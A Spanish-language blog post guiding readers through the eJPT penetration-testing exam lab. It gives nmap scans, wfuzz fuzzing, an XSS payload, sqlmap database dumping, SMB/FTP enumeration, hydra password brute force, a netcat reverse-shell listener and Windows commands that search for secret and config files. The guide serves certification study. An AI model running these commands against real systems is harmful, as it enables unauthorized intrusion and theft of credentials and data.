 ```yaml
---
title:  "Aprobar el eJPT a la primera"
categories: 
  - Certificaciones
tags:
  - eJPT
toc: true
toc_label: "Tabla de contenido"
---
```

El presente artículo contiene una guía del procedimiento a llevar acabo para aprovar con éxito el examen de la certificacion [eJPT](https://elearnsecurity.com/product/ejpt-certification/).

## Barrido de ping

Una vez te conectes por **VPN** al laboratorio, lo primero que deberias hacer es un reconocimiento al sistema, encontrando activos, para lo cual los siguentes comandos te serian de ayuda:

```bash
nmap -sn 10.10.10.0/24
fping -a -g 10.10.10.0/24 2>/dev/null
```
## Escaneo exhaustivo

Ya en este punto, despues de tener tu lista de host activos, lo siguiente que deberías hacer es un escaneo más exhaustivo, es decir listar los puertos abiertos con los que cuentan los host, así mismo como los servicios y versiones que estan corriendo en ellos. No olvides ir guardando todos tus escaneos y datos relevantes encontrados.

```bash
nmap -p- --open -n -v -T5 10.10.14.16 -oN puertos
sudo nmap -sS --min-rate 200 -p- --open -n -v -Pn 10.10.14.16 -oN puertos
nmap -sV -sC -p21,22,80 10.10.14.16 -oN serviciosVersiones
nmap --script=vuln -p22,21,80,445 -v 10.10.14.16 -oN vulnScan
nmap --script=smb-vuln* -p445 -v 10.10.14.16 -oN smbScan
```
En esta etapa también debes ir realizando un reconocimiento a todos los servicios y puertos listados con los comandos anteriores, algunas cosas que deberias probar dependiendo el puerto y/o servicio seria:

### **Servicios Web**

```bash
nmap --script=http-enum -p80 10.10.14.16 -oN webScan
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ.php
```

- **XSS**

```bash
<script>alert(xss)</script>
<h1>H1</h1>
```

- **SQLMap**

```bash
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname -T table_name --dump
```

### **Enumeración de SMB**

```bash
smbclient -L 10.10.14.12 -N
smbmap -H 10.10.14.12 -u 'null'
nmap --script=smb-vuln* -p445 10.10.14.15 -oN smbScan
smbmap -H 10.10.14.15 -R backups -u 'null'
smbclient //10.10.14.15/backups
```
### **Enumeración de FTP**

```bash
nmap --script=ftp-anon -p21 10.10.14.12
ftp 10.10.14.12
cd ..
```
## Explotación

En esta fase es en la cual debes aprovechar de los resultados anteriores obtenidos, con esos resultados podrás buscar posibles exploits o maneras de aprovecharte de ellos, como por ejemplo:

### FTP - Fuerza Bruta

```bash
hydra -l admin -P passlist.txt ftp://192.168.0.1
hydra -L userlist.txt -P passlist.txt ftp://192.168.0.1
```
**Pista:** 
Después de encontrar lo que te solicitan podrias necesitar **unshadow** y **john**
{: .notice--danger}

### Reverse Shell

Si te basas en los resultados anteriores y te ayudas de **Google** o **searchsploit** necesitarás:

- **nc**
```bash
nc -nlvp 443
```
- **metasploit**
```bash 
msfconsole
```
### Enumeración de windows

Una vez hayas conprometido el activo, deberás enumar lo, los siguientes comandos te serán de gran ayuda:
```bash
dir /b/s "\*.conf*"
dir /b/s "\*.txt*"
dir /b/s "\*secret*"
route print
netstat -r
fsutil fsinfo drives
wmic logicaldisk get Caption,Description,providername
```

## Post Explotación

Ahora, una vez hayas realizado todo lo anterior, deberiás preocuparte por descubrir nuevos activos y repetir los pasos anteriores si fuese necesario.

### Wireshark
```bash
ip.addr==192.168.12
ip.src == 192.168.2.11
ip.dst == 192.168.2.15
```
### IP Route
```bash
ip route add 10.10.10.0/24 via 10.10.11.1 dev tap0
```
## Recomendaciones
- **No** olvides revisar el material que te entregan antes del examen.
- Si deseas ver solo los comandos necesarios o alternativos para el examen, revisa mi [eJPT - Cheatsheet](https://github.com/hacknotes/eJPT-Cheatsheet)

